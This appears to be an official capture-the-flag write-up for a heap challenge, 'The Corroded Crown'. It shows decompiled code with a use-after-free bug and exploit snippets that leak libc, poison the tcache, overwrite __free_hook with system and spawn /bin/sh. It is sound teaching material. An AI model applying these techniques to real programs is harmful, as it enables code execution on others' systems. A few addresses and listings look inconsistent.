

	    <font size="6">The Corroded Crown</font>

9<sup>th</sup> May 2026

Prepared By: w3th4nds

Challenge Author(s): w3th4nds

Difficulty: <font color=green>Easy</font>

Classification: Official

  


# Synopsis

The Corroded Crown is an easy difficulty heap challenge that features a **Use-After-Free** primitive to leak `libc` via the unsorted bin, poison the `tcache` to allocate at `__free_hook`, and redirect `free()` to `system()`. Set in the fractured realm of Crownspire, the challenge casts the player as **Rin Kagetsura, the Hatchbreaker**---a rogue engineer who exploits the hidden tolerances of "sanctified" mechanisms to make them accept the wrong truth.

# Description

When the Signet shattered, Crownspire's oaths didn't die. They got imitated. Houses started turning out claims so immaculate they felt wrong in the hand, too perfect and too eager to be believed. The Corroded Crown was the old forge where the Signet's fragments were first shaped, a sanctified mechanism of authority now rusted and corrupted. Its relics still carry the old geometry, but the tolerances are off. Perfect face, wrong spine.

Rin has found her way into the forge's service throat. The locks here are still called "sanctified," but she knows the tell by now. Someone has been refitting these holy mechanisms with new tolerances, quietly changing who gets let in once panic has everyone begging at the door. She isn't here to smash the system. She's here to make it accept the wrong truth.

## Skills Required

- Basic heap exploitation, Use-After-Free, Tcache poisoning.

## Skills Learned

- Leaking `libc` via unsorted bin UAF, corrupting tcache `next` pointers to achieve arbitrary write, overwriting `__free_hook` with `system`.

# Enumeration

First of all, we start with a `checksec`:

```console
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The interface of the program presents an interactive forge menu. After the Crownspire banner, the player is greeted with thematic prompts for each action:



Each choice prints a thematic message and prompts for the required parameters, making the forge feel alive.

### Disassembly ⛏️

Loading the binary into Ghidra, we inspect the decompiled code. The forge maintains a global array of relic records in the `.bss` section:

```c
/* 00104040  Relic relic[64] */
typedef struct Relic {
    char * ptr;
    int    size;
    char   is_used;
} Relic;
```

The `read_int` helper reads up to `0x1f` bytes and converts them via `atoi`. Notice the fixed buffer size---there is no overflow here, but the function trusts the input completely:

```c
/* 00101329  read_int */
int read_int(void)
{
  char local_28 [32];
  
  memset(local_28,0,0x20);
  readline(local_28,0x1f);
  return atoi(local_28);
}
```

The `forge_relic` function allocates a new chunk with `malloc` and records its size. It only acts when `is_used == 0`, but there is no validation of the slot's current contents---an empty slot is simply overwritten. The decompiled code now includes the interactive prompts:

```c
/* 001013aa  forge_relic */
void forge_relic(void)
{
  int iVar1;
  int iVar2;
  
  printf("\n[*] The forge roars to life. Molten memory takes shape...\n");
  printf("[?] Choose a shelf for the new relic (index): ");
  iVar1 = read_int();
  printf("[?] How much metal shall we shape? (size): ");
  iVar2 = read_int();
  if ((iVar1 < 0) || (0x3f < iVar1)) {
    fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  if (iVar2 < 0) {
    fwrite("[ERROR] Invalid size\n",1,0x15,stderr);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  if (relic[iVar1].is_used == '\0') {
    relic[iVar1].ptr = (char *)malloc((long)iVar2);
    relic[iVar1].size = iVar2;
    relic[iVar1].is_used = '\x01';
    printf("[+] The relic has been forged and placed upon shelf %d.\n",iVar1);
  }
  else {
    printf("[!] That shelf already holds a relic. The forge refuses.\n");
  }
  return;
}
```

The `destroy_relic` function is where the first critical bug lives. It calls `free()` on the relic's pointer but never NULLs it out. The `is_used` flag is cleared, making the slot appear empty, yet the dangling pointer remains:

```c
/* 0010147e  destroy_relic */
void destroy_relic(void)
{
  int iVar1;
  
  printf("\n[*] The relic is cast into the furnace...\n");
  printf("[?] Which relic shall be destroyed? (index): ");
  iVar1 = read_int();
  if ((iVar1 < 0) || (0x3f < iVar1)) {
    fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  if (relic[iVar1].is_used == '\x01') {
    free(relic[iVar1].ptr);
    relic[iVar1].is_used = '\0';
    printf("[!] The relic crumbles to ash. The mark lingers.\n");
  }
  else {
    printf("[!] That shelf is empty. There is nothing to destroy.\n");
  }
  return;
}
```

This creates a **Use-After-Free** primitive. Because both `inscribe_relic` and `inspect_relic` skip the `is_used` check entirely, we can read from and write to freed chunks freely:

```c
/* 0010140c  inscribe_relic */
void inscribe_relic(void)
{
  int iVar1;
  
  printf("\n[*] You press the seal onto the relic's surface...\n");
  printf("[?] Which relic shall be inscribed? (index): ");
  iVar1 = read_int();
  if ((iVar1 < 0) || (0x3f < iVar1)) {
    fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  printf("[?] Press your inscription into the metal (%d bytes):\n",relic[iVar1].size);
  read(0,relic[iVar1].ptr,(long)relic[iVar1].size);
  printf("[+] The inscription has been pressed into the metal.\n");
  return;
}

/* 001013f0  inspect_relic */
void inspect_relic(void)
{
  int iVar1;
  
  printf("\n[*] You examine the relic's markings...\n");
  printf("[?] Which relic shall be inspected? (index): ");
  iVar1 = read_int();
  if ((iVar1 < 0) || (0x3f < iVar1)) {
    fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  printf("[*] Relic [%d]: ",(ulong)(uint)iVar1);
  write(1,relic[iVar1].ptr,(long)relic[iVar1].size);
  putchar(10);
  return;
}
```

This gives us a classical UAF primitive:
- **Read** (`inspect`) to leak pointers from freed chunks.
- **Write** (`inscribe`) to corrupt heap metadata (`fd`, `next`, size fields).

### Debugging 🔬

#### Step 1 --- Leaking libc via Unsorted Bin

We allocate a chunk of size `0x500` (index 0) and a guard chunk of size `0x80` (index 1) to prevent top-chunk consolidation. After freeing index 0, it enters the unsorted bin:

```gdb
pwndbg> heapbins
fastbins
empty
tcachebins
empty
unsortedbin
all: 0x5555555592a0 --▸ 0x7ffff7fb1be0 (main_arena+96) ◂-- 0x5555555592a0
```

The `fd` and `bk` pointers of the freed chunk now point into `main_arena` inside libc. Inspecting the freed chunk leaks the unsorted bin address:

```gdb
pwndbg> x/4gx 0x5555555592a0
0x5555555592a0:	0x00007ffff7fb1be0	0x00007ffff7fb1be0
0x5555555592b0:	0x0000000000000000	0x0000000000000511
```

From this leak we calculate the libc base:

```python
libc_base = leak - 0x1ecbe0
__free_hook = libc_base + 0x1eee48
system = libc_base + 0x52290
```

#### Step 2 --- Tcache Poisoning

Next, we allocate two `0x80` chunks (indices 2, 3) and free them both. In glibc 2.31, the tcache is LIFO, so the chain becomes:

```
tcache[0x80] -> chunk_3 -> chunk_2 -> NULL   (count = 2)
```

We can verify this in the debugger:

```gdb
pwndbg> tcachebins
tcachebins[0x90]  [  2]: 0x555555559360 --▸ 0x5555555592a0 --▸ 0x0
```

Using UAF on chunk 3 (index 3), we overwrite its `next` pointer with `__free_hook`. Note that **tcache stores user-data pointers directly** (unlike fastbins which store chunk addresses at `fd`, i.e. `user_ptr - 0x10`). Therefore we poison with `__free_hook` itself, not `__free_hook - 0x10`:

```python
rf.inscribe(3, p64(__free_hook))
```

After poisoning, the tcache chain looks like this:

```gdb
pwndbg> tcachebins
tcachebins[0x90]  [  2]: 0x555555559360 --▸ 0x7ffff7fbce48 (__free_hook) --▸ 0x0
```

#### Step 3 --- Allocating at __free_hook

We perform two allocations of size `0x80`. The first pops chunk 3 (legitimate), and the second returns `__free_hook`:

```python
rf.forge(4, 0x80)   # pops chunk_3
rf.forge(5, 0x80)   # returns __free_hook
```

In the debugger we confirm that index 5 now points to `__free_hook`:

```gdb
pwndbg> x/gx &relic[5].ptr
0x555555558068:	0x00007ffff7fbce48
```

We overwrite `__free_hook` with `system`:

```python
rf.inscribe(5, p64(system))
```

Verification:

```gdb
pwndbg> x/gx &__free_hook
0x7ffff7fbce48 <__free_hook>:	0x00007ffff7e20290
```

#### Step 4 --- Triggering Shell

Finally, we allocate a small chunk, fill it with `/bin/sh\x00`, and free it. Since `__free_hook` now points to `system`, the call `free("/bin/sh")` resolves to `system("/bin/sh")`:

```python
rf.forge(6, 0x80)
rf.inscribe(6, b"/bin/sh\x00")
rf.destroy(6)
```

# Solution

The full exploit logic can be summarized in four steps:

1. **Leak libc** via unsorted-bin UAF (inspect freed `0x500` chunk).
2. **Poison tcache** by freeing two `0x80` chunks and overwriting the head's `next` pointer with `__free_hook`.
3. **Allocate at `__free_hook`** and overwrite it with `system`.
4. **Trigger shell** by freeing a chunk containing `/bin/sh`.

Key implementation detail: `read(0, ptr, size)` reads exactly `size` bytes. If we send only `b"/bin/sh\x00"` (8 bytes) to a `0x80` chunk, the remaining `0x78` bytes are read from the next command in the pipe, corrupting the menu protocol. Always pad `inscribe` data to the exact chunk size.

```python
# Always pad to exact chunk size
rf.inscribe(6, b"/bin/sh\x00".ljust(0x80, b"\x00"))
```
